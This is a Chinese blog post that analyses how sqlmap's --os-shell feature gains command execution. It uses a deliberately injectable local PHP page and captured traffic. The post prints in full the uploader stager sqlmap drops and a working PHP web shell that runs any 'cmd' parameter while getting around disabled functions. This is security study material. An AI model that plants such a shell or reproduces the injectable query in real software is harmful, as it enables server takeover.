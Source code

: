 ```yaml
---
layout: post
title: Sqlmap --os-shell Principle analysis
date: 2018-9-26
categories: blog
tags: [WEB]
description: 文艺的流氓。
---
```


刚好学习完了二次注入,就想知道`sqlmap`的`get  shell`是怎么实现的。

### 1.环境

我自己写一个页面。很简单

- config.php

```php
<?php 
 $serve = '127.0.0.1:3306';
 $user = 'root';
 $password = '';
 $db = 'test';
 $mysql = new Mysqli($serve,$user,$password,$db);
 $mysql->set_charset('utf-8');
?>
```

- sql.php

```php
<?php
 include "config.php";
 $id = @$_GET['id'];
 $sql = "select * from demo where id = '{$id}'";
 $row = $mysql->query($sql);
 if($row){
    $rows = $row->fetch_array();
    echo $rows['username']."<br />";
    echo $rows['password']."<br />";
    echo $rows['email']."<br />";
 }
?>
```

### 2.流程

**第一步**

我已经成功的利用注入点进行了`getshell`。

从图中可以看得到。

1. 我是选择是`php`.因为使用的语言就是`php`
2. 选择了一个绝对路径。
3. 发现了上传了两个文件分别是`tmpuigbp.php`和`tmpbesbw.php`

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926093832.png)

**流量分析**

我是通过`wireshark`抓取`sqlmap`的流量来观察的。

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926094504.png)

发现`sqlmap`按路径尝试去访问文件`tmpujqbu.php`，通过 POST 上传后门文件`tmpbzhga.php`

**文件内容**

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926094813.png)

可以看的到的是`tmpuigbp.php`文件内容就是一个文件上传。并且把文件给了`755`权限

```php
<?php 
if (isset($_REQUEST["upload"])) {
    $dir = $_REQUEST["uploadDir"];
    if (phpversion() < '4.1.0') {
        $file = $HTTP_POST_FILES["file"]["name"];
        @move_uploaded_file($HTTP_POST_FILES["file"]["tmp_name"], $dir . "/" . $file) or die;
    } else {
        $file = $_FILES["file"]["name"];
        @move_uploaded_file($_FILES["file"]["tmp_name"], $dir . "/" . $file) or die;
    }
    @chmod($dir . "/" . $file, 0755);
    echo "File uploaded";
} else {
    echo "<form action=" . $_SERVER["PHP_SELF"] . " method=POST enctype=multipart/form-data><input type=hidden name=MAX_FILE_SIZE value=1000000000><b>sqlmap file uploader</b><br><input name=file type=file><br>to directory: <input type=text name=uploadDir value=D:\\Software\\xampp\\htdocs\\> <input type=submit name=upload value=upload></form>";
}
?>
```

而`tmpbesbw.php`文件就是一个木马文件了。一个用于执行系统命令的后门脚本文件

```php
<?php
$c = $_REQUEST["cmd"];
@set_time_limit(0);
@ignore_user_abort(1);
@ini_set('max_execution_time', 0);
$z = @ini_get('disable_functions');
if (!empty($z)) {
    $z = preg_replace('/[, ]+/', ',', $z);
    $z = explode(',', $z);
    $z = array_map('trim', $z);
} else {
    $z = array();
}
$c = $c . " 2>&1\n";
function f($n)
{
    global $z;
    return is_callable($n) and !in_array($n, $z);
}
if (f('system')) {
    ob_start();
    system($c);
    $w = ob_get_contents();
    ob_end_clean();
} elseif (f('proc_open')) {
    $y = proc_open($c, array(array(pipe, r), array(pipe, w), array(pipe, w)), $t);
    $w = NULL;
    while (!feof($t[1])) {
        $w .= fread($t[1], 512);
    }
    @proc_close($y);
} elseif (f('shell_exec')) {
    $w = shell_exec($c);
} elseif (f('passthru')) {
    ob_start();
    passthru($c);
    $w = ob_get_contents();
    ob_end_clean();
} elseif (f('popen')) {
    $x = popen($c, r);
    $w = NULL;
    if (is_resource($x)) {
        while (!feof($x)) {
            $w .= fread($x, 512);
        }
    }
    @pclose($x);
} elseif (f('exec')) {
    $w = array();
    exec($c, $w);
    $w = join(chr(10), $w) . chr(10);
} else {
    $w = 0;
}
print "<pre>" . $w . "</pre>";
```

访问这个文件。用参数`cmd`执行命令

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926095227.png)

**原理简述**

1. 就是一个简单的上传`shell`
2. 分两个文件上传。其实可以一个文件上传
3. 使用`os-shell`的条件就是需要`FILE`权限.可写的一个环境。`PHP GPC off`
4. `os-shell`退出之后。会自动清楚这两个文件
